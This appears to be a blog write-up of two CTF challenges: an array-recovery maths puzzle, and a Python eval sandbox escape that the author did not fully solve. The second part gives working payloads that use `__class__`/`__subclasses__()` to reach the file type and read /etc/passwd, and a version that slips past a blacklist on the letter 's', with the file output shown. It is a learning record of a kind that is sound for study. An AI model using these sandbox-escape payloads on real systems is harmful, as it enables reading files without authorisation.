

This was one of the first CTFs I've competed in, and I'm pretty happy with the performance we obtained. I worked on two problems, one which I didn't get in the end. But it was still a great learning experience. I definitely got carried by the other people in my team, who did really well in the `pwn` section.

## Problem 1 - Secret Array

**TL;DR**

- use `pwntools` to interface with the IP and port, not netcat, as there is no easy way to pipe python output to netcat
- **DON'T name your file something generic like `pwn.py` or `numbers.py`, as those are internally used by `pwntools`, and will result in failures DX**
- don't overengineer your answers, occam's razor
- installation steps:

```bash
virtualenv venv
. venv/bin/activate
pip install pwntools
```

The problem was hosted in a server, and netcat was used to access it.
`nc secretarray.fword.wtf 1337`

The problem stated that there were 1337 unknown numbers in an array, and we were allowed to query the server with 2 valid indices, which would return the sum of the two numbers in the array at those indices. We were allowed to query the server 1337 times.

At first glance, I immediately felt like this would be a great opportunity to use `np.linalg.solve`, as the problem was essentially a really big simultaneous equations problem, so at first I made arbitrary guesses of the form:

```python
for i in range(1337):
    if i == 1336:
        print(f"0 1336")
    else:
        print(f"{i} {i+1}")
```

This yielded a list of 1337 numbers, which I turned into a numpy array. I also converted my guesses into a numpy matrix like so:

```python
matrix = np.zeros((1337,1337))
for i in range(1337):

    if i == 1336:
        matrix[i,i] = 1
        matrix[i,0] = 1
    else:
        matrix[i,i] = 1
        matrix[i,i+1] = 1

matrix = matrix.astype('float64')
ans = np.linalg.solve(matrix, res)
for a in ans:
    print(a)
```

However, I immediately realised this wasn't going to work when I was getting floats as my answers...

So instead, I decided to rethink my strategy, since the simulataneous equations were quite simple:

- Let every element in the array be labelled like $a_{i}, i \in 1,2,...,N, \text{where } N=1337$.
- Thinking for a simple case, where $N=3$, we see that for the following chosen indices:

$$
\begin{cases}
a_0 + a_1 = b_0 \qquad (1)\\
a_0 + a_2 = b_1 \qquad (2)\\
a_1 + a_2 = b_2 \qquad (3)
\end{cases}
$$

- We can simply solve these by computing $(1)-(2) \equiv a_1 - a_2 = b_0 - b_1$, adding this to $(3)$, we obtain

$$
\begin{cases}
a_0 = b_0 - a_1 \\
a_1 = \frac{b_0 - b_1 + b_2}{2} \\
a_2 = b_0 - a_2
\end{cases}
$$

By solving this simplest case, we get a values for $a_0, a_1, a_2$ and we can easily extend this scenario to $N=4$ by taking the 4th simultaneous equation to be

$$
\begin{aligned}
a_2 + a_3 &= b_3 \\
\therefore a_3 &= b_3 - a_2
\end{aligned}
$$

So I just coded this:

```python
with open('output.txt','r') as f:
    data = f.readlines()

data = [int(d[:-1]) for d in data] #strip newline

# solve the first 3
answers = [0 for _ in range(1337)]

answers[1] = (data[0]-data[1]+data[2])/2
answers[0] = data[0]-answers[1]
answers[2] = data[2]-answers[1]

for i in range(3,1337):
    answers[i] = data[i]-answers[i-1]

# checking
assert(answers[0]+answers[1] == data[0])
assert(answers[0]+answers[2] == data[1])
assert(answers[1]+answers[2] == data[2])
for i in range(3,1337):
    assert(answers[i-1]+answers[i] == data[i])

print("DONE "+" ".join(str(a) for a in answers))
```

Now, when I was trying to get `pwntools` to work, I had made the moronically called the file `pwn.py` which was an internal file used in `pwntools`, so it failed, I eventually got my friend to run the code above and he got the flag :S.

## Problem 2 - Directory Manager

This one was really hard and involved a Server Side Template Injection in python. I didn't get it this time, but here are some things I found out that might prove useful in later CTFs.

### Recon

I just kept trying different inputs, here are some examples of what I got

```
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir
<built-in function dir>
```

Some more examples include:

```
dir: <built-in function dir>
file: <type 'file'>
exit: Use exit() or Ctrl-D (i.e. EOF) to exit
anything where the second letter is an s: Thank you !
[]: []
['hello']: []
['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']: ['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']
```

Ultimately, from the output interpretations of `dir` and `file`, I was pretty sure python code was executing. However, interestingly any input that contained the letter 's' would fail with `Thank you !`.

### Intro to SSTI

In a previous challenge, I performed Server Side Template Injection (SSTI) and remote code execution (RCE) through a Flask template input by exploiting the fact that `file` is a built in type, and that there were certain builtin class functions that let you go from any one class to any other class.

```python
>>> [].__class__
<type 'list'>
```

Here, we can abuse the `.__class__` method to obtain a reference to the list object type.

```python
>>> [].__class__.__base__
<type 'object'>
```

We can go further and obtain the object class like so.

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

We can actually find the `file` type, by taking the 40th element in this list:

```python
>>> [].__class__.__base__.__subclasses__()[40]
<type 'file'>
```

And finally, we can use this type as a function to read and print a file.

```python
>>> [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n'
```

### no 's'

Now you can probably see why banning the letter 's' would be problematic, as the letter 's' appears in all the builtin functions we used to grab the file type.

However, fear not, as security engineers always find a way!

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[dir()]
[['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__warningregistry__', 'conn', 'inp', 'isallowed', 'ldap']]
```

I found I was able to evaluate the `dir()` function if it was contained in a list, and lo and behold! the first element of this list has the letter 's' in it~

I grabbed this 's' to see if it would pass whatever black listing was happening behind the scenes:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir()[0][9]
s
```

Bingo. Now, I just used the string `format` function to craft the payload shown in the previous section:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[eval('[].__cla{0}{0}__.__ba{0}e__.__{0}ubcla{0}{0}e{0}__()'.format(dir()[0][9]))[40]('/etc/pa{0}{0}wd'.format(dir()[0][9])).read()]
['root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n']
```

Although I was able to read `/etc/passwd`, as well as some other common files like `.bashrc`, without access to the `os` library, I was unnable to get a list of the directory, to know which file to target.

### Failures

I tried a lot of different things, here's how they worked out:

- I can `eval` but I am blacklisted from running `exec`, or running `eval(compile())`, which means I cannot import.
- I can use `__import__(os).listdirs()` but this is blocked from running, and black listed.
  Really, I spent a few hours testing random directories and possible file names for the flag, but without access to `ls`, I am really at a loss for knowing which file to target. Hence I was unable to get the flag in the end.
